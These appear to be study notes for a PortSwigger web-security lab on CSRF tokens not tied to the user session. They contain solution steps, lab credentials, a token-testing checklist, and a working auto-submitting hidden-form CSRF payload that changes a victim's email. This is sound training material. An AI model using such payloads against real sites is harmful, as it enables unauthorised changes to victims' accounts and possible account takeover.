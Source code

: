 ```
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

## **4. CSRF where token is not tied to user session**
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
2. Make a note of the value of the CSRF token, then drop the request.
3. Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
4. Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
5. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
6. Change the email address in your exploit so that it doesn't match your own.
7. Store the exploit, then click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Credentials - wiener:peter, carlos:montoya

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: csrf token is not tied to user session

Testing CSRF Tokens:
1. Remove the CSRF token and see if application accepts request
2. Change the request method from POST to GET
3. See if CSRF token is tied to user session (try with incognito mode)

- try to change csrf token in order to see if it is accepted or not(if it is checked in the backend)
	if is not -> check if csrf token is tied to the user's session cookie:
		- use csrf token from another account using incognito mode :)
			if is accepted --> the csrf token is not tied to the user's session 

- HTML payload:
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="zXqP4oMlBXDX16q4Qb5MgFawPZXaK4bW">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>

    </body>
</html>
```
